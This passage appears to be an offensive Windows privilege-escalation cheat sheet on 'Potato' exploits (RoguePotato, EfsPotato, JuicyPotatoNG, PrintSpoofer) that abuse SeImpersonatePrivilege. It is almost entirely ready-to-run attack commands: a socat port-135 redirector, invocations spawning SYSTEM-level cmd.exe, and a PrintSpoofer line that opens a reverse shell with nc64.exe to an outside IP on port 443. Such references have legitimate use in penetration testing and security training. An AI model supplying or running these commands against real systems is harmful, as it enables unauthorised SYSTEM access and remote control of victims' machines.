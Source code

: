 #### Rogue Potato (Fake OXID Resolver)

* Binary available at [antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

```powershell
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. 
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

#### EFSPotato (MS-EFSR EfsRpcOpenFileRaw)

* Binary available at https://github.com/zcgonvh/EfsPotato

```powershell
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs

# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs
```

#### JuicyPotatoNG

* [antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```

#### PrintSpoofer (Printer Bug)

> this work if SeImpersonatePrivilege is enabled

* Binary available at https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

```powershell
# run nc -lnvp 443 then :
.\PrintSpoofer64.exe -c "C:\Temp\nc64.exe 192.168.45.171 443 -e cmd"
# without listener
.\PrintSpoofer64.exe -i -c cmd
# Via RPD
.\PrintSpoofer64.exe -d 3 -c "powershell -ep bypass"
```
